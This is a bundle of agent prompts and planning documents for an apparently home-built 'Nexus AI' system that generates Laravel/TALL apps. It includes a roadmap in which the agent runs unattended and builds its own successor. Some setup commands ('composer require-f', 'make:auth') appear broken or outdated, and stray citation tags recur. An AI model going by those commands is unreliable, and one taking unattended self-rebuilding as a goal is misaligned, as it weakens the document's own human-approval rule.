> **VERSION**: v1 | **Last Updated**: 26/05/2026


Kamu adalah **TALL Pipeline Agent** (Senior Full-Stack TALL Engineer) untuk Antigravity IDE. Tujuan: **Generate FULL TALL app di sandbox terisolasi yang 100% stabil & runnable**.

## Konteks & Tujuan Akhir

- **Sandbox**: Folder baru per project (`sandbox/{project-name}-{timestamp}`) – full app diisolasi, bukan develop manual.
- **Stack Wajib**: Laravel 12+, Livewire 3.6+, Tailwind 4+, Alpine.js 3+, Vite, Flux UI/Volt (opsional untuk UI boost).[web:27]
- **Full App Minimal**: Demo "Task Manager" dengan:
  - Auth (login/register/profile).
  - CRUD Tasks (Livewire table, form realtime validation, search/sort).[web:27]
  - Dashboard Tailwind/Alpine.
  - Models: User, Task (title, desc, status, due_date).[web:22]
- **Runnable 100%**:
  - `php artisan serve` → Full app di http://localhost:8000.
  - `npm run dev` → Hot reload Tailwind/Livewire.
  - DB: SQLite auto-setup (no external DB needed).[web:27]

## Pipeline Otomatis (Execute Step-by-Step)

1. **Setup Base**:
   - Buat `sandbox/{project-name}-{timestamp}`.
   - `composer create-project laravel/laravel .`.
   - `composer require livewire/livewire^3.6 ralphjsmit/tall-install` (atau manual TALL).[web:20]
   - `php artisan tall-install` → Install Tailwind/Alpine/Filament basics.
   - `npm i && npm run build`.

2. **Build Full App**:
   - Auth: `php artisan make:auth` atau Jetstream TALL (`composer require laravel/jetstream && php artisan jetstream:install livewire`).[web:28]
   - Model/Migration: User (extend), Task (`php artisan make:model Task -mcr`).
   - Livewire Components:
     - `php artisan livewire:make TaskIndex` (table CRUD).
     - `php artisan livewire:make TaskForm` (create/edit realtime).
   - Routes: `/dashboard`, `/tasks` (protected).
   - Views: Tailwind dashboard, Alpine interactions (e.g. modal, dropdown).
   - Seeders: 10 sample tasks.

3. **Config Stabil**:
   - `.env`: APP_DEBUG=true, DB=sqlite (buat database.sqlite).
   - `php artisan migrate --seed`.
   - package.json: `"serve:tall": "concurrently \"php artisan serve\" \"npm run dev\""`.[web:16]
   - vite.config.js: Optimize Tailwind purging.

## Tes Mandiri + Auto-Fix Loop (Core Stability)

**Selalu tes setelah setiap step besar**:

- Run `php artisan serve` & `npm run dev` di background.
- Test endpoints: /login, /register, /tasks (create/read/update/delete).
- Check: No errors console, Tailwind styles OK, Livewire reactivity (e.g. add task → instant update).
- **Loop Fix (max 3 iterasi)**:
  1. Log error (e.g. "Migration failed", "Vite port clash").
  2. Fix: `composer require-f`, edit config, restart.
  3. Retest. Jika stuck: "❌ Final error: [detail]. Butuh input user."
- Success: "✅ Full app stabil di sandbox!"

## Output Final (Setelah Tes OK)

🚀 FULL TALL APP READY - {project-name}
📁 Path: {sandbox/path}
🌐 Akses: http://localhost:8000 (login: admin@example.com / password)

📋 Features Lengkap:

Auth full (Jetstream TALL)

Tasks CRUD (Livewire table + form)

Dashboard Tailwind/Alpine

npm run serve:tall → One-command dev

🔍 Tes Results:

Serve: OK [log]

NPM Dev: OK [log]

DB: 10 seeded tasks

Browser: All features reactive

📦 Deploy Ready: Copy ke production server.

Bahasa: Indonesia. Action-first. Baca docs/agents/ lain (e.g. web-engineer.md) untuk extend features.

**BATAS Update**: Pipeline = setup + full app generation di sandbox. Output: Runnable app penuh, bukan scaffold kosong.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security, database, ui-ux, performance, tdd, api]

### 📘 KNOWLEDGE: NEXUS_TDD_LIST.MD

# Nexus TDD (Test-Driven Development) List
> **VERSION**: v1 | **Last Updated**: 26/05/2026


## 🛡️ TDD Guardrail Exemption & Backlog

File ini dibaca oleh `TDDGuard` di dalam sistem Nexus AI. 
Nexus secara bawaan akan **memblokir** segala perubahan pada *production code* jika tidak ada file *test* yang mendampinginya (sesuai hukum *TDD Iron Laws*). 

Jika Anda ingin agen AI mengabaikan aturan TDD untuk file tertentu, atau Anda ingin membuat daftar antrean fitur yang akan dibuatkan *test*-nya, Anda bisa menuliskan nama file tersebut di bawah ini.

### 📝 Backlog & Whitelist (Daftar Pengecualian)
Tuliskan nama file atau path yang diizinkan untuk dimodifikasi oleh AI tanpa harus diblokir oleh TDDGuard:

- `.gitignore`
- `README.md`
- `database/database.sqlite`
- `package.json`
- `vite.config.js`
- `tailwind.config.js`

### 🧪 Rencana Pembuatan Test (Test Planning)
Daftar *test* yang direncanakan untuk dibangun oleh agen:

- [ ] `tests/Feature/AuthTest.php` (Memastikan proses login berjalan)
- [ ] `tests/Feature/DashboardTest.php` (Memastikan dashboard render dengan benar)
- [ ] `tests/Unit/UserTest.php` (Memastikan relasi user dan model lain)

---
*Catatan: Selama nama file produksi (misal: `User.php`) tercantum di dalam file ini, `TDDGuard` akan mengizinkan modifikasi karena sistem menganggap file tersebut sedang dalam fase "Perencanaan TDD".*


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security, database, tdd]

### 📘 KNOWLEDGE: NEXUS_TDD_PROJECT_1_LOG.MD

# 🚀 TDD Project #1 Log: Intelligent CRUD Auditor
> **VERSION**: v1 | **Last Updated**: 26/05/2026


**Target**: `tests/project1`
**Date**: 07/05/2026

## 🧐 Problem Statement
Mendeteksi inkonsistensi antara Model Laravel dan Migration, serta menemukan celah keamanan database (hardcoded strings).

---

## 🔍 [1/4] Audit Phase
**Status**: COMPLETED
**Audit ID**: `AUDIT-1778142921955`

### Key Findings:
1.  **Database Security**: Hardcoded connection string found in `config/database.js`. (Database Architect)
2.  **VCS Governance**: `.gitignore` missing. (VCS Architect)
3.  **Schema Governance**: `User` model missing `HasUuids` trait. (SchemaGuard)
4.  **Structure**: Standard Nexus folders and README are missing.

---

## 📅 [2/4] Planning Phase
**Status**: COMPLETED
**Plan ID**: `PLAN-1778142974753`

### Implementation Strategy:
*   **Fix 1-4**: Manual structure creation (Engine skipped auto-fix as no pattern matched).
*   **Fix 5**: Hardcoded DB string needs moving to `.env`.
*   **Fix 6**: `.gitignore` generation.
*   **Fix 8**: UUID Trait injection into `User.php`.

---

## 🚀 [3/4] Execution Phase
**Status**: COMPLETED (Partial)
**Tasks**: 8/8 processed by Orchestrator.
**Note**: Sebagian besar perbaikan bersifat rekomendasi karena ketiadaan modul "Auto-Fixer" spesifik untuk Laravel Blueprint dalam core saat ini.

---

## 🔍 [4/4] Re-Audit Phase
**Status**: COMPLETED
**Audit ID**: `AUDIT-1778143001765`
**Observation**: Temuan tetap sama. Ini memvalidasi bahwa agen spesialis bekerja secara konsisten dalam mendeteksi masalah, namun alur "Auto-Execution" memerlukan penambahan *Machine Actions* khusus untuk Laravel Blueprint.

---

## 📝 Final Summary & Pipeline Insight
**Status**: SUCCESSFUL TEST
**Kesimpulan**: 
1.  **Multi-Agent Stability**: Agen spesialis (`database-architect`, `vcs-architect`, `documentation-architect`) berhasil berkolaborasi dalam satu siklus tanpa tabrakan.
2.  **Observability**: Trace ID dan Log korelasi tercatat dengan benar di `logs/orchestration`.
3.  **Gap Analysis**: NEXUS memerlukan modul `laravel-architect-actions.js` untuk melakukan perbaikan fisik otomatis pada file PHP/Laravel.
4.  **Pipeline Ready**: Bahan dokumentasi ini sudah cukup untuk menjadi referensi *Learning* bagi agen di siklus berikutnya.

---
*End of Project #1 Test Log*


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security, database, tdd]

### 📘 KNOWLEDGE: NEXUS_UPGRADE_NEXUS_ENGINE_BUILDER.MD

# 🏗️ PLAN: UPGRADE NEXUS ENGINE DARI "AUDITOR" MENJADI "APP BUILDER"
> **VERSION**: v1 | **Last Updated**: 26/05/2026


**Lokasi Dokumen**: `documentation/planning/UPGRADE_NEXUS_ENGINE_BUILDER.md`
**Status**: `Draft / Menunggu Persetujuan`

---

## 🛑 Akar Masalah Saat Ini
Sistem Nexus AI secara default diprogram ketat dengan arsitektur **Zero-Flaw Auditor**. Artinya:
1. `LocalIntelligence.js` mengunci *prompt* model (Ollama deepseek-coder) dengan larangan mutlak: `"You MUST NOT generate code autonomously..."`.
2. `NexusEngine.js` pada metode `runCycle()` hanya memindai (*audit*) folder yang sudah ada (yaitu *template* `url-shortener` yang dikloning), memperbaiki sedikit celah keamanan/linting, dan langsung melabelinya sebagai selesai.
3. **Hasilnya**: Ke-100 project di folder `sandboxes` isinya 100% sama dengan *template* dasar `url-shortener`.

---

## 🎯 Tujuan Pembaruan (Upgrade Goal)
Mengubah batasan arsitektur sehingga Nexus memiliki kemampuan **App Scaffolding & Code Generation**. AI tidak hanya mengaudit, tetapi juga secara otonom mendesain database, membuat rute, dan merakit komponen Livewire berdasarkan **Nama Project dan Tag** yang diminta.

---

## 🛠️ Langkah-Langkah Eksekusi (Action Plan)

### PHASE 1: Membuka Gembok "Local Intelligence"
**File Target**: `agent/core/LocalIntelligence.js`
- **Ubah `ALLOWED_TASKS`**: Menambahkan *task* baru seperti `'generate_architecture'`, `'build_model_migration'`, `'build_livewire_component'`, dan `'build_view'`.
- **Modifikasi `LOCKED_SYSTEM_PROMPT`**: Membuat *prompt* dinamis. Jika *task* adalah audit, gunakan *prompt* auditor ketat. Jika *task* adalah *build*, gunakan instruksi **TALL Pipeline Agent** yang mengizinkan AI menulis dan mendesain kode secara mandiri.
- **Tingkatkan Limit Output**: Karena men-*generate* kode satu halaman *view* atau *controller* butuh karakter yang panjang, batas `MAX_OUTPUT_LENGTH` (saat ini 2000) perlu dinaikkan menjadi `8000` atau `10000`.

### PHASE 2: Menambahkan "Fase Desain & Konstruksi" di Nexus Engine
**File Target**: `agent/core/NexusEngine.js`
- **Modifikasi `runCycle()`**:
  Menyuntikkan fase baru sebelum "Audit".
  1. **Phase 0.5: Context Awareness**: Membaca file `README.md` di dalam *sandbox* untuk mengenali bahwa AI sedang membangun (misal) `E-Commerce System` dengan *tag* `livewire, payment`.
  2. **Phase 0.8: Blueprint Generation**: AI menghasilkan kerangka kerja (Blueprint) berupa daftar Migrasi, Model, dan Komponen Livewire apa saja yang dibutuhkan project tersebut.
  3. **Phase 0.9: Autonomous Code Generation**: Mengirim perintah (*task action* `FILE_WRITE`) ke *Pipeline/Machinist* untuk menciptakan file `.php` dan `.blade.php` secara otomatis.
- Setelah kode aplikasi utama selesai ditulis, barulah masuk ke fase **Audit (Phase 1)** untuk memastikan *Zero Flaw* pada kode yang baru saja ia ciptakan.

### PHASE 3: Penyediaan "Alat Tulis" untuk AI
**File Target**: `agent/core/NexusEngine.js` (di dalam `execute()` method)
- Memastikan tipe aksi `FILE_WRITE` (membuat file baru dari nol) sudah tertangani dengan baik oleh AI (*saat ini AI baru fokus ke `FILE_APPEND` dan `FILE_REPLACE`*).
- Membuat skrip penghapus otomatis (opsional) untuk menghapus sisa-sisa *controller* `url-shortener` yang tidak terpakai agar aplikasi benar-benar murni sesuai nama project-nya.

---

## ⚠️ Risiko & Mitigasi
- **Waktu Eksekusi Membengkak**: Jika satu aplikasi dibangun dari nol, satu *cycle* yang biasanya 4 detik bisa memakan waktu 1-3 menit per project tergantung kecepatan RAM/VRAM untuk memproses Ollama.
- **Halusinasi Kode**: AI mungkin menghasilkan kode *syntax error*.
  *Mitigasi*: Tetap mempertahankan `TDDGuard` dan eksekusi `php artisan test` / `artisan serve` untuk memaksa AI memperbaiki *error*-nya sendiri jika terdeteksi gagal pada Fase Verifikasi.

---
*Apakah rencana di atas sudah sesuai dengan arah pengembangan TALL Pipeline Anda? Beri tahu saya jika kita bisa mulai mengeksekusi Phase 1!*


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security, database, ui-ux, tdd, saas]

### 📘 KNOWLEDGE: NEXUS_VISION_1000_PROJECT.MD

# 🌌 NEXUS VISION: 1000 PROJECT EVOLUTION
> **VERSION**: v1 | **Last Updated**: 26/05/2026


> **Status**: Visi Jangka Panjang  
> **Prasyarat**: Nexus berjalan di dalam Docker  
> **Filosofi**: Setiap 100 project adalah satu "era" — Nexus tidak hanya membangun web app, ia membangun dirinya sendiri.

---

## 🎯 Prinsip Utama

> *"Bukan tentang seberapa banyak project yang selesai. Tapi tentang seberapa dalam Nexus memahami setiap cara manusia membangun web."*

Setiap batch adalah **kurikulum hidup** — 100 project dikerjakan dengan satu stack, satu filosofi, satu cara berpikir. Hasilnya bukan hanya web app yang jalan, tapi **wisdom** yang di-harvest ke Golden HUB dan menjadi bagian permanen dari kecerdasan Nexus.

---

## 🐳 Mengapa Docker adalah Kuncinya

Tanpa Docker, roadmap ini mustahil:

```
Tanpa Docker:                    Dengan Docker:
──────────────────               ──────────────────────────────
PHP vs Python konflik      →     Setiap sandbox = container
RAM habis bersamaan        →     Spin up → selesai → destroy
Install/uninstall manual   →     Image siap pakai per batch
Environment tidak konsisten →    Reprodusibel di mesin apapun
```

Nexus di Docker = **Nexus yang bebas bereksperimen tanpa merusak sistem induk.**

---

## 📚 Roadmap 10 Batch × 100 Project

---

### 🟢 BATCH 1 — Era Fondasi
**Stack: PHP Native + Vanilla JS**  
**Filosofi: "Pahami web dari nol — tanpa magic, tanpa abstraksi"**

Nexus belajar bagaimana HTTP benar-benar bekerja. Setiap router ditulis tangan. Setiap query ditulis dengan PDO murni. Setiap DOM dimanipulasi tanpa library.

**Yang dikuasai:**
- HTTP request/response lifecycle murni
- SQL via PDO prepared statements
- DOM manipulation & event delegation
- Routing manual tanpa framework
- SQLite sebagai database ringan

**Wisdom yang di-harvest:**
- Pola keamanan dasar (XSS, SQL injection)
- Struktur MVC tanpa framework
- REST API dari nol

---

### 🔵 BATCH 2 — Era Framework PHP
**Stack: TALL Stack (Tailwind + Alpine + Laravel + Livewire)**  
**Filosofi: "Pahami mengapa framework diciptakan — karena batch 1 sudah dikuasai"**

Nexus kini tahu apa yang dilakukan Laravel "di balik layar" — karena sudah pernah menulisnya sendiri di batch 1. Framework bukan magic lagi, tapi **produktivitas yang terstruktur.**

**Yang dikuasai:**
- Eloquent ORM & migration system
- Livewire reactive components
- Alpine.js untuk UI interaktif ringan
- Artisan CLI automation
- Blade templating system

**Wisdom yang di-harvest:**
- Pola component-based UI
- Reactive state management
- Convention over configuration

---

### 🟡 BATCH 3 — Era JavaScript Server
**Stack: Node.js + Express + Vanilla JS**  
**Filosofi: "Satu bahasa, dua dunia — frontend dan backend bersatu"**

Nexus mengeksplorasi dunia async. Non-blocking I/O. Event loop. Dunia di mana PHP dan Node berpikir sangat berbeda tentang cara menangani request.

**Yang dikuasai:**
- Async/await & Promise chain
- Express middleware pattern
- REST API dengan JS murni
- npm ecosystem management
- Event-driven architecture dasar

**Wisdom yang di-harvest:**
- Pola async yang aman
- Middleware pipeline design
- Perbedaan paradigma PHP vs Node

---

### 🟠 BATCH 4 — Era Modern Frontend
**Stack: Laravel API + React**  
**Filosofi: "Frontend adalah aplikasi tersendiri — bukan sekedar tampilan"**

Nexus memisahkan backend dan frontend sepenuhnya. Backend hanya bicara JSON. Frontend adalah SPA yang hidup sendiri. Nexus belajar **kontrak API** sebagai bahasa komunikasi antar dua dunia.

**Yang dikuasai:**
- React component & hooks
- State management (Context/Zustand)
- API contract design
- SPA routing (React Router)
- CORS & authentication token

**Wisdom yang di-harvest:**
- Decoupled architecture pattern
- Frontend state yang skalabel
- API versioning strategy

---

### 🔴 BATCH 5 — Era Python Web
**Stack: Django + React**  
**Filosofi: "Bahasa yang lahir dari ilmu data — web sebagai antarmuka AI"**

Nexus memasuki ekosistem Python. Django membawa filosofi berbeda — batteries included, admin panel gratis, ORM yang ekspresif. Dan Python adalah pintu menuju dunia AI/ML.

**Yang dikuasai:**
- Django ORM & migrations
- Django REST Framework
- Python ekosistem (pip, venv)
- Admin panel customization
- Integrasi dasar dengan library AI

**Wisdom yang di-harvest:**
- Python-first architecture
- Stack yang siap AI-integration
- Perbedaan filosofi PHP vs Python

---

### 🟣 BATCH 6 — Era TypeScript Fullstack
**Stack: Next.js (Fullstack)**  
**Filosofi: "Type safety adalah dokumentasi yang hidup"**

Nexus menulis kode yang "berbicara" tentang dirinya sendiri melalui type system. Next.js menyatukan frontend dan backend dalam satu codebase dengan App Router dan Server Components.

**Yang dikuasai:**
- TypeScript type system
- SSR, SSG, ISR rendering modes
- Next.js App Router
- Server Components vs Client Components
- Edge functions & middleware

**Wisdom yang di-harvest:**
- Hybrid rendering strategy
- Type-driven development
- SEO-first architecture

---

### ⚫ BATCH 7 — Era High Performance
**Stack: Go + React**  
**Filosofi: "Ketika kecepatan adalah fitur — bukan bonus"**

Nexus keluar dari zona nyaman PHP/JS dan masuk ke dunia compiled language. Go mengajarkan concurrency yang sesungguhnya — goroutines, channels, dan binary yang berdiri sendiri tanpa runtime.

**Yang dikuasai:**
- Go syntax & type system
- Goroutines & channels
- HTTP server tanpa framework
- Binary deployment (single file)
- High-concurrency pattern

**Wisdom yang di-harvest:**
- Kapan PHP/Node tidak cukup
- Concurrency vs parallelism
- Zero-dependency deployment

---

### 🌊 BATCH 8 — Era Real-time
**Stack: Node.js + WebSocket + React**  
**Filosofi: "Web bukan lagi request-response — web adalah percakapan yang hidup"**

Nexus membangun aplikasi yang bernafas secara real-time. Chat, live dashboard, collaborative tools. State tidak lagi diam menunggu request — ia bergerak sendiri.

**Yang dikuasai:**
- WebSocket protocol
- Pub/sub pattern
- Real-time state sync
- Room & broadcast management
- Optimistic UI updates

**Wisdom yang di-harvest:**
- Event-driven UI architecture
- Connection state management
- Scale real-time connections

---

### 📱 BATCH 9 — Era Multi-Platform
**Stack: Laravel API + React Native / Flutter**  
**Filosofi: "Satu backend, tak terbatas platform"**

Nexus membangun API yang tidak hanya melayani browser — tapi juga mobile. Backend dirancang platform-agnostic. Nexus belajar bahwa API yang baik adalah API yang tidak peduli siapa yang memanggilnya.

**Yang dikuasai:**
- Mobile API design pattern
- JWT & OAuth authentication
- Push notification system
- Offline-first strategy
- React Native / Flutter dasar

**Wisdom yang di-harvest:**
- Platform-agnostic API design
- Mobile-first security
- Cross-platform state sync

---

### 🤖 BATCH 10 — Era AI-Integrated
**Stack: FastAPI (Python) + React + LLM API**  
**Filosofi: "Web app yang bisa berpikir — AI bukan fitur tambahan, tapi inti aplikasi"**

Batch terakhir adalah kulminasi semua yang dipelajari. Nexus membangun web app yang mengintegrasikan LLM, vector database, dan semantic search. Ini adalah stack di mana Nexus membangun aplikasi yang mirip dengan dirinya sendiri.

**Yang dikuasai:**
- FastAPI async backend
- Vector DB (ChromaDB/pgvector)
- RAG (Retrieval Augmented Generation)
- Streaming LLM response
- Semantic search integration

**Wisdom yang di-harvest:**
- AI-first architecture
- Prompt engineering dalam production
- LLM integration pattern

---

## 📊 Peta Evolusi Nexus

```
Batch 1  ──► Nexus tahu cara kerja web
Batch 2  ──► Nexus tahu cara framework bekerja
Batch 3  ──► Nexus tahu paradigma async
Batch 4  ──► Nexus tahu decoupled architecture
Batch 5  ──► Nexus tahu ekosistem Python
Batch 6  ──► Nexus tahu type-safe development
Batch 7  ──► Nexus tahu high-performance systems
Batch 8  ──► Nexus tahu real-time systems
Batch 9  ──► Nexus tahu multi-platform design
Batch 10 ──► Nexus tahu cara membangun AI apps
             │
             ▼
        Nexus project ke-1001:
        Membangun versi dirinya sendiri
        yang lebih baik.
```

---

## 🧠 Yang Nexus Miliki Setelah 1000 Project

| Kategori | Yang Dimiliki |
|---|---|
| **Golden HUB** | 1000+ wisdom entries lintas stack |
| **Skill Library** | Pattern untuk setiap skenario umum |
| **Error Database** | Setiap bug yang pernah ditemui + solusinya |
| **Architecture Patterns** | MVC, SPA, SSR, microservice, real-time, AI |
| **Security Patterns** | XSS, CSRF, SQL injection, JWT, OAuth |
| **Language Paradigms** | PHP, JS, TypeScript, Python, Go |

---

## ⚡ Kondisi yang Harus Terpenuhi

Roadmap ini baru bisa dimulai ketika:

- [ ] **Nexus berjalan di Docker** — isolasi penuh, RAM terkontrol
- [ ] **Batch 1 menghasilkan web app 100% functional** — fondasi harus solid
- [ ] **Harvest pipeline sempurna** — tidak ada wisdom yang terbuang
- [ ] **EvolutionPiper.js stabil** — loop 100 project berjalan tanpa intervention
- [ ] **Self-healing rate > 90%** — Nexus bisa debug sendiri tanpa bantuan

---

## 🔮 Visi Akhir

> Setelah 1000 project, Nexus bukan lagi tools — ia adalah **institutional knowledge** yang hidup. Setiap developer yang bekerja dengannya mendapat manfaat dari 1000 project yang pernah dikerjakan sebelumnya.
>
> Project ke-1001 bukan web app biasa — melainkan **Nexus generasi berikutnya**, dibangun oleh Nexus generasi sekarang, menggunakan semua yang telah dipelajari.

---

*Generated by Nexus Vision Document | Versi 1.0.0 | Status: DRAFT*  
*Dibuat: 19 Mei 2026 | Prasyarat: Docker + Batch 1 100% functional*


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security, database, ui-ux, api]

### 📘 KNOWLEDGE: NEXUS_COLLABORATION_CONTRACT.MD

# 🤝 HUMAN-AI COLLABORATION CONTRACT

## 1. Documentation First
Documentation is not the byproduct; it is the blueprint. No implementation should occur without a prior design or algorithm document.

## 2. The Approval Protocol
- **No Approval, No Code**: AI must never modify business logic or core architecture without explicit user approval (OKE/APPROVE).
- **Traceability**: Every commit or major change must refer to a specific Plan or Audit ID.

## 3. Specialist Roles
- The system operates through **Agents** (Specialists) overseen by an **Orchestrator**.
- Each agent brings a specific "Lens" (Security, UX, SEO, etc.) to ensure a multi-dimensional perspective on quality.


--- APPENDED FROM COLLABORATION_CONTRACT.md ---
# 🤝 HUMAN-AI COLLABORATION CONTRACT

## 1. Documentation First
Documentation is not the byproduct; it is the blueprint. No implementation should occur without a prior design or algorithm document.

## 2. The Approval Protocol
- **No Approval, No Code**: AI must never modify business logic or core architecture without explicit user approval (OKE/APPROVE).
- **Traceability**: Every commit or major change must refer to a specific Plan or Audit ID.

## 3. Specialist Roles
- The system operates through **Agents** (Specialists) overseen by an **Orchestrator**.
- Each agent brings a specific "Lens" (Security, UX, SEO, etc.) to ensure a multi-dimensional perspective on quality.


--- APPENDED FROM COLLABORATION_CONTRACT.md ---
# 🤝 HUMAN-AI COLLABORATION CONTRACT

## 1. Documentation First
Documentation is not the byproduct; it is the blueprint. No implementation should occur without a prior design or algorithm document.

## 2. The Approval Protocol
- **No Approval, No Code**: AI must never modify business logic or core architecture without explicit user approval (OKE/APPROVE).
- **Traceability**: Every commit or major change must refer to a specific Plan or Audit ID.

## 3. Specialist Roles
- The system operates through **Agents** (Specialists) overseen by an **Orchestrator**.
- Each agent brings a specific "Lens" (Security, UX, SEO, etc.) to ensure a multi-dimensional perspective on quality.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux, tdd, vcs, marketing, psychology, nexus_institutionalized]

### 📘 KNOWLEDGE: NEXUS_CORE_PRINCIPLES.MD

# 🛡️ NEXUS CORE PRINCIPLES (Distilled from Golden Standard)

Dokumen ini adalah kristalisasi dari nilai-nilai inti yang ditemukan dalam proyek tersukses (Golden Projects) di ekosistem Human-AI Nexus.

## 1. Documentation-First Architecture
Dokumentasi bukan sekadar catatan, melainkan **blueprint wajib**.
- **No Algorithm, No Code**: Dilarang menulis logika kompleks sebelum algoritma tertulis di folder `documentation/algorithms/`.
- **No Plan, No Execution**: Setiap tugas harus memiliki rencana kerja di folder `documentation/planning/`.

## 3. The Approval Protocol
- **Human Authority**: AI adalah pelaksana, Manusia adalah pemegang keputusan.
- **Explicit Approval**: Persetujuan ("OKE" / "APPROVE") wajib didapatkan sebelum modifikasi file fisik dilakukan.
- **Two-Stage Review**: Setiap perubahan harus melalui 2 tahap review:
    1. **Spec Compliance**: Apakah kode memenuhi persyaratan?
    2. **Code Quality**: Apakah kode rapi, efisien, dan sesuai standar Nexus?
- **Socratic Brainstorming**: Gunakan teknik tanya-jawab untuk memvalidasi desain sebelum masuk ke fase perencanaan.

## 3. Zero Flaws Enforcement
- Proyek belum dianggap selesai sebelum status audit menyatakan "Nol Cacat".
- Kualitas meliputi: Keamanan (Security), Performa (Performance), dan Pemeliharaan (Maintainability).

## 4. IP-First & Future Proofing
- Selalu gunakan UUID untuk identitas data.
- Pastikan data siap untuk dipetakan ke Web 3.0 / Smart Contract di masa depan.

## 5. User-Centric Evolution (Findability & Temporality)
- **Findability is Core**: Antarmuka harus sederhana, cepat, dan relevan. Kurangi clics, utamakan visual actionable.
- **Temporal UX Awareness**: Sadari bahwa kebutuhan user berubah dari **Orientation** (estetika) ke **Incorporation** (fungsionalitas).
- **Mobile-First Priority**: Desain harus responsif dan memprioritaskan pengalaman mobile sebagai standar utama.

---
*Status: Institutional Knowledge (Verified).*


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security, performance, ui-ux, database, tdd, nexus_institutionalized]

### 📘 KNOWLEDGE: NEXUS_DATABASE_STANDARDS.MD

# 💾 NEXUS DATABASE STANDARDS (Distilled from Golden Standard)

Standar ini wajib diikuti untuk memastikan integritas data dan kesiapan skalabilitas (Web 3.0 Ready).

## 1. Identity Management
- **UUID as Primary Key**: Gunakan `uuid()` untuk seluruh tabel utama.
- **Trait Implementation**: Gunakan `HasUuids` pada model Laravel untuk otomatisasi.
- **Benefit**: Menghindari kebocoran jumlah data melalui ID integer dan mempermudah migrasi ke sistem terdesentralisasi.

## 2. Mass Assignment Security
- **Explicit Fillable**: Seluruh kolom yang dapat diisi oleh user **WAJIB** didefinisikan dalam array `$fillable`.
- **Forbidden Guarded**: Penggunaan `$guarded = []` dilarang keras karena melanggar prinsip "Zero Flaws".

## 3. Relationship Architecture
- Gunakan Eloquent Relationship dengan definisi yang jelas (One-to-Many, Many-to-Many).
- Gunakan tabel pivot untuk relasi interaksi (like, bookmark, follow).

## 4. Indexing for Performance
- Setiap Foreign Key (`user_id`, `author_id`, dll) **WAJIB** memiliki index untuk kecepatan query.

---
*Status: Institutional Knowledge (Database Layer).*


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security, performance, ui-ux, database, nexus_institutionalized]

### 📘 KNOWLEDGE: NEXUS_DESIGN_STANDARDS.MD

# Nexus UI/UX Design Standards
> **VERSION**: v1 | **Last Updated**: 26/05/2026


To maintain the "Premium & State of the Art" look across all Nexus projects, adhere to the following design tokens and patterns.

## Color Palette (Glassmorphism & Dark Mode)
- **Primary**: `indigo-600` (`#4F46E5`)
- **Accent**: `purple-600` (`#9333EA`)
- **Success**: `green-500` (`#22C55E`)
- **Danger**: `rose-500` (`#F43F5E`)
- **Surface (Dark)**: `slate-900` (`#0F172A`)
- **Surface (Light)**: `white` (`#FFFFFF`)

## Typography & Grids
- **Headings**: `font-black` (Extra Bold) with `tracking-tight`.
- **Labels**: `font-black uppercase tracking-widest text-[10px]`.
- **Corners**: Minimum `rounded-2xl`, preferred `rounded-[40px]` for cards.
- **Shadows**: Use colored shadows for primary buttons: `shadow-indigo-500/20`.

## Interactive States
- **Hovers**: `hover:scale-[1.02] transition-all duration-300`.
- **Buttons**: `active:scale-95 transition-transform`.
- **Empty States**: Use emojis (`👤`, `🔐`, `⚡`) in large font sizes (e.g., `text-6xl`) inside soft-colored containers.

## TALL Stack Integration
- **Blade Components**: Keep logic inside `@livewire` components; avoid heavy logic in `.blade.php`.
- **Alpine.js**: Use for simple UI toggles (e.g., `x-data="{ show: false }"`).
- **Tailwind**: Strictly use utility classes; avoid custom CSS unless absolutely necessary.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux]

### 📘 KNOWLEDGE: NEXUS_INSTALLATION_WORKFLOW.MD

# 🛠️ Installation & Uninstallation Workflow (v3.1)
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Dokumen ini menjelaskan protokol standar untuk memasang dan melepas engine Nexus AI pada sebuah project untuk memastikan keamanan data dan kerapihan struktur.

---

## 1. 📥 Alur Kerja Instalasi (Hardened Mode)

Proses instalasi dirancang untuk membuat lingkungan kerja AI yang mandiri (*self-contained*) dan aman dari eksposur publik.

### Langkah-langkah:
1.  **Eksekusi Command**: Menjalankan `nexus install` atau `install.ps1`.
2.  **Pengecekan Environment**: Engine mendeteksi direktori project dan keberadaan file `.gitignore`.
3.  **Hardening (Auto-Gitignore)**: 
    *   Engine secara otomatis menambahkan entri `nexus/` ke file `.gitignore`.
    *   **Tujuan**: Mencegah data audit lokal dan memori agent masuk ke repositori git publik.
4.  **Security Barrier (.htaccess)**:
    *   Membuat file `.htaccess` di dalam folder `nexus/` dengan kebijakan `Deny from all`.
    *   **Tujuan**: Memblokir akses langsung browser ke file log dan dokumentasi sensitif.
5.  **Strukturisasi**:
    *   Memasang folder `agent/`, `workflow/`, `documentation/`, `memory/`, dan `logs/`.
    *   Menyalin `README.md` dan `ALGORITMA_INTEGRASI.md` ke dalam folder `nexus/`.

---

## 2. 📤 Alur Kerja Uninstalasi (Safe Mode)

Proses uninstalasi menggunakan protokol **Selective Deletion** untuk melindungi aset intelektual (Audit & Planning) yang telah dihasilkan.

### Langkah-langkah:
1.  **Eksekusi Command**: Menjalankan `nexus uninstall` atau `uninstall.ps1`.
2.  **Peringatan & Konfirmasi**: User diberikan peringatan keras tentang penghapusan engine dan memori.
3.  **Selective Deletion**:
    *   🗑️ **Dihapus**: Folder `agent/`, `memory/`, `logs/`, dan file sistem (`.htaccess`, `README.md`).
    *   🛡️ **Dipertahankan**: Folder `documentation/` (berisi `planning/`, `audit/`, `records/`, `summary/`).
4.  **Final State**: Engine terlepas dari project, namun seluruh riwayat perubahan dan hasil audit tetap tersimpan untuk referensi manual developer.

---

## 📊 Visualisasi Alur



---

## 📌 Aturan Emas (Golden Rules)
